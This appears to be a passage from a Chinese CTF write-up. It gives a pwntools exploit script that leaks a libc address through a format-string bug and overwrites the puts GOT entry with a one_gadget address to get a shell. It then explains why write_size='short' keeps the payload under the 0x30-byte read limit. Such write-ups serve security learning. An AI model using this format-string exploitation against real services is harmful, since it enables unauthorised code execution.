 ```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

# link=remote("8.147.132.32",44894)
link=process("./pwn")
e=ELF("./pwn")

link.recvuntil("data: \n")
link.send(b'%19$p')

call_main_addr=link.recv(14)
libc_base=int(call_main_addr,16)-0x29D90 # libc基址得在动调时候用vmmap指令看libc的最低地址

ogg=libc_base+0xebc81

offset=8
puts_got=e.got["puts"]
payload = fmtstr_payload(offset, {puts_got: ogg & 0xffffff},0,write_size="short")

gdb.attach(link,'b *0x4012FE')
pause()

data = payload
modified_payload = data.decode('utf-8').replace('lln', 'hn').replace('aaaa', 'aaaaa').encode('utf-8')

link.recvuntil("data: \n")
link.send(modified_payload)

link.interactive()
```

其中这两段比较有趣：

```python
offset=8
puts_got=e.got["puts"]
print(hex(puts_got))
payload = fmtstr_payload(offset, {puts_got: ogg & 0xffffff},0,write_size="short")
......
modified_payload = data.decode('utf-8').replace('lln', 'hn').replace('aaaa', 'aaaaa').encode('utf-8')
```

看IDA：

![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20241017132921761.png)![](/images/9c5894a66decc80f59e9b22a90f53e02.png)

从IDA可以知道`read`函数只能读入0x30个字节的数据，但是`fmt_str`函数默认是以bytes的单位写入地址的，  
所以没加参数限制的情况下自动生成的payload会超过30字节无法实现修改`puts`函数的got表。

### 细节：fmtstr_payload
而`fmtstr_payload`函数有一个参数是`write_size`，可以自己选择每次写入的大小，  
所以把参数设置为`short`类型就可以缩短payload的长度。
